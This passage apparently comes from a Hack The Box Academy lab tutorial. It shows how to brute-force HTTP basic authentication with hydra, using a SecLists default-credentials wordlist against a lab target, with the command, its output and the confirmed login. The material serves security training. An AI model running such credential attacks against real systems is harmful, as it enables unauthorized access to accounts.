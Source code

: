It is very common to find pairs of usernames and passwords used together, especially when default service passwords are kept unchanged. That is why it is better to always start with a wordlist of such credential pairs -e.g. `test:test`-, and scan all of them first.

This should not take a long time, and if we could not find any working pairs, we would move to use separate wordlists for each or search for the top 100 most common passwords that can be used.

We can find a list of default password login pairs in the [SecLists](https://github.com/danielmiessler/SecLists) repository as well, specifically in the `/opt/useful/SecLists/Passwords/Default-Credentials` directory within Pwnbox. In this case, we will pick `ftp-betterdefaultpasslist.txt` as it seems to be the most relevant to our case since it contains a variety of default user/password combinations. We will be using the following flags, based on help page above:

| **Options**                        | **Description**               |
| ---------------------------------- | ----------------------------- |
| `-C ftp-betterdefaultpasslist.txt` | Combined Credentials Wordlist |
| `SERVER_IP`                        | Target IP                     |
| `-s PORT`                          | Target Port                   |
| `http-get`                         | Request Method                |
| `/`                                | Target Path                   |

The assembled command results:

&#x20; Default Passwords

```shell-session
AbdulrahmanTamim@htb[/htb]$ hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.211.23.155 -s 31099 http-get /

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

[DATA] max 16 tasks per 1 server, overall 16 tasks, 66 login tries, ~5 tries per task
[DATA] attacking http-get://178.211.23.155:31099/
[31099][http-get] host: 178.211.23.155   login: test   password: testingpw
[STATUS] attack finished for 178.211.23.155 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

It's pretty common for administrators to overlook test or default accounts and their credentials. That is why it is always advised to start by scanning for default credentials, as they are very commonly left unchanged. It is even worth testing for the top 3-5 most common default credentials manually, as it can very often be found to be used.

We can visit the website again and try the same pair to verify that they do work:

&#x20;  ![](https://academy.hackthebox.com/storage/modules/57/bruteforcing\_index.jpg)

As we can see, we do get access, and the pair indeed works. Next, we can try to attempt running the second type of scan by separate user wordlists for usernames and passwords and see how long it takes to find the same pair we just identified.
